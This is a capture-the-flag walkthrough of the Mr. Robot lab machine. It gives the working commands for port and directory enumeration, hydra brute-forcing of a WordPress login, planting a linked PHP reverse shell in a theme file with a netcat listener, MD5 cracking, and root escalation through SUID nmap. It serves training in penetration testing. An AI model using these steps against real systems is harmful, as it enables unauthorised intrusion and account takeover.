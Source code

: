 # 1 Hack the machine

## Can you root this Mr. Robot styled machine? This is a virtual machine meant for beginners/intermediate users. There are 3 hidden keys located on the machine, can you find them?

### What is key 1?

Hint: Robots

This one is pretty easy, we could easily brute force it just by going into `http://<IP>/robots.txt`, but let's do it properly

1. First enumerate the server with nmap

```bash
nmap -p- -Pn <IP>
```

- `-p-`: Allow us to scan all 65535 TCP ports
- `-Pn`: Skips the host discovery process (ping scan)

![SCREEN01](https://github.com/user-attachments/assets/70a1f790-0fbc-417e-94bc-147c59b2e52b)

2. Enumerate directories with gobuster

```bash
gobuster dir -u http://<IP> -w /root/Tools/wordlists/dirbuster/directory-list-1.0.txt
```

- `-u`: Specifies the URL to scan
- `-w`: Specifies the wordlist file used for brute-forcing

3. Now that we have officially found it - go to `http://<IP>/robots.txt`. Here we can see two more paths: `fsocity.dic` and `key-1-of-3.txt`. The second one in `http://<IP>/key-1-of-3.txt` contains first key.

### What is key 2?

Hint: There's something fishy about this wordlist... Why is it so long?

The `fsocity.dic` looks like a credentials list

1. While enumerating with gobuster we have also found `http://<IP>/wp-login.php`. When trying to login with random credentials, this returns, a handy error saying '**ERROR: Invalid username**' - thanks to this we can prepare list of valid usernames

2. But first things first, the list contains duplicates so clean it up a bit:

```bash
sort fsocity.dic | uniq -d > fsocity-unique.dic
sort fsocity.dic | uniq -u >> fsocity-unique.dic
wc -w fsocity-unique.dic
```

- `-d`: Outputs lines that appear multiple times
- `-u`: Outputs lines that appear exactly once
- `-w`: Count words

3. While logging in to `http://<IP>/wp-login` in DevTools -> Network we can see the Request parameters

![SCREEN02](https://github.com/user-attachments/assets/ea686888-9b26-431c-a2c1-509a77e273cf)

4. hydra payload time:

```bash
hydra -L fsocity-unique.dic -p test <IP> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid username" -t 30
```

- `-L`: Specifies a list of usernames to try from the file
- `-p`: Uses a single password for all attempts
- `-t`: Number of parallel connections to use for the attack

![SCREEN03](https://github.com/user-attachments/assets/27d74201-63ce-4e5f-bce6-08d8c88297f1)

5. With the correct username, the error changes to '**ERROR: The password you entered for the username is incorrect.**'

```bash
hydra -l elliot -P fsocity-unique.dic <IP> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=The password you entered for the username" -t 30
```

- `-l`: Specifies a single username to use for all attempts
- `-P`: Specifies a list of passwords to try from the file
- `-t`: Number of parallel connections to use for the attack

![SCREEN04](https://github.com/user-attachments/assets/f4d896c5-11de-47bf-a840-d24504aba526)

6. After logging in, set the netcat listener, get php reverse shell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), and paste to archive.php in Appearance -> Editor view. Update file (remember to change `$ip` and `$port`) and go to the `http://<IP>/wp-content/themes/twentyfifteen/archive.php` to activate the reverse shell

```bash
nc -lvnp 4444
```

- `-l`: Listen mode
- `-v`: Verbose output
- `-n`: Skip DNS lookup
- `-p`: Specify the port number to listen on

![SCREEN05](https://github.com/user-attachments/assets/dd242322-9f25-44f7-a798-d2ec7b00b77b)

7. In home/robot there are two files `key-2-of-3.txt` and `password.raw-md5`. Unfortunately we don't have access premission to access second flag as of now, but we can crack the MD5 password and try as a robot user

```bash
ls -la home/robot
cat home/robot/key-2-of-3.txt
cat home/robot/password.raw-md5
```

![SCREEN06](https://github.com/user-attachments/assets/cc3c1ed8-6a65-4f44-8fba-76f03059d77a)

8. Crack the password using [Crack Station](https://crackstation.net/) and login as robot and get the flag

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
su robot
pwd
cat home/robot/key-2-of-3.txt
```

![SCREEN07](https://github.com/user-attachments/assets/65af9fef-32cc-4575-a435-fc722c557572)

### What is key 3?

Hint: nmap

1. Search for files with special permissions. These are files that always execute as the user who owns the file, regardless of the user passing the command. Nmap is on the list.

```bash
find / -perm -u=s -type f 2>/dev/null
```

![SCREEN08](https://github.com/user-attachments/assets/d7732b8d-9aa5-4b37-a650-e2d4e4ea46dc)

2. Check [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/) for nmap, go to the nmap directory and follow the instructions

```bash
cd /usr/local/bin
nmap --interactive
!sh
cat /root/key-3-of-3.txt
```

![SCREEN09](https://github.com/user-attachments/assets/7b793ef0-1434-4ad0-83b6-af72c2daf145)

